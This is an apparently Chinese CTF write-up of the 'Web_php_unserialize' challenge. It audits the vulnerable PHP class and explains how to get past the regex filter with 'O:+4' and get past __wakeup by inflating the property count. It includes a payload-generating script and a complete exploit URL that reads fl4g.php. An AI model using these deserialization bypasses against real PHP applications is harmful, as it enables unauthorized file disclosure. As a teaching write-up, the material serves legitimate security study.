



# Web_php_unserialize
## 题目描述
暂无  

## 思路
http://220.249.52.133:45936  
点开题目链接，直接就是一段 php 代码：  
  
并且，有一个小提示，小秘密在 f14g.php 文件中。那我们来分析一下代码，看看怎么才能访问到 f14g.php 文件。  
```php
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file;  //构造函数，对类的变量进行初始化
    }
    //析构函数
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }

    //魔术方法，如果有反序列化的使用，在反序列化之前会先调用这个方法
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
    //正则匹配，如果在var变量中存在O/C:数字(O:数字或者C:数字这样的形式})
    //不区分大小写，就输出stop hacking!否则的话就进行反序列化
    if (preg_match('/[oc]:\d+:/i', $var)) { 
        die('stop hacking!'); 
    } else {
        @unserialize($var); 
    } 
} else { 
    highlight_file("index.php"); 
} 
?>
```
审计完成之后，思路就很清晰了，对 Demo 这个类进行序列化，base 64 加密之后，赋值给 var 变量进行 GET 传参就行了。  

在类 Demo 中有三个方法，一个构造，一个析构，还有就是一个魔术方法，构造函数 __construct() 在程序执行开始的时候对变量进行赋初值。析构函数 __destruct()，在对象所在函数执行完成之后，会自动调用，这里就会高亮显示出文件。  

在反序列化执行之前，会先执行 __wakeup 这个魔术方法，所以需要绕过，当成员属性数目大于实际数目时可绕过 wakeup 方法，正则匹配可以用 + 号来进行绕过。  
```php
<?php 
class Demo { 
    private $file = 'fl4g.php'; // $file 改成 fl4g.php
}
$a= serialize(new demo);
$a= str_replace('O:4', 'O:+4',$a); //绕过 preg_match
$a= str_replace(':1:', ':2:',$a); //绕过 wakeup
echo base64_encode($a);
?>
```
运行结果如下：  
  
再根据运行结果构造一个链接：  
http://220.249.52.133:45936/index.php/?var=TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==  
得到 flag：  
  
